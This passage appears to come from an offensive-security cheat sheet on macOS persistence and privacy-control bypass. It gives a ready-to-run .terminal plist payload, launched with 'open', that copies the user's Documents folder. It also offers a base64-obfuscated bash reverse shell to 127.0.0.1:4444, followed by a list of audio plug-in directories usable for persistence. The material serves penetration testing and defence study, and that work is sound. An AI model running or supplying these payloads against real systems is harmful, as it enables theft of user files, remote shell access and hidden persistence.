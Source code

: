 Try it with:

```bash
# Prepare the payload
cat > /tmp/test.terminal << EOF
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>CommandString</key>
	<string>mkdir /tmp/Documents; cp -r ~/Documents /tmp/Documents;</string>
	<key>ProfileCurrentVersion</key>
	<real>2.0600000000000001</real>
	<key>RunCommandAsShell</key>
	<false/>
	<key>name</key>
	<string>exploit</string>
	<key>type</key>
	<string>Window Settings</string>
</dict>
</plist>
EOF

# Trigger it
open /tmp/test.terminal

# Use something like the following for a reverse shell:
<string>echo -n "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYxOw==" | base64 -d | bash;</string>
```

{% hint style="danger" %}
If terminal has **Full Disk Access** it will be able to complete that action (note that the command executed will be visible in a terminal window).
{% endhint %}

### Audio Plugins

Writeup: [https://theevilbit.github.io/beyond/beyond\_0013/](https://theevilbit.github.io/beyond/beyond\_0013/)\
Writeup: [https://posts.specterops.io/audio-unit-plug-ins-896d3434a882](https://posts.specterops.io/audio-unit-plug-ins-896d3434a882)

#### Location

* **`/Library/Audio/Plug-Ins/HAL`**
  * Root required
  * **Trigger**: Restart coreaudiod or the computer
* **`/Library/Audio/Plug-ins/Components`**
  * Root required
  * **Trigger**: Restart coreaudiod or the computer
* **`~/Library/Audio/Plug-ins/Components`**
  * **Trigger**: Restart coreaudiod or the computer
* **`/System/Library/Components`**
  * Root required
  * **Trigger**: Restart coreaudiod or the computer

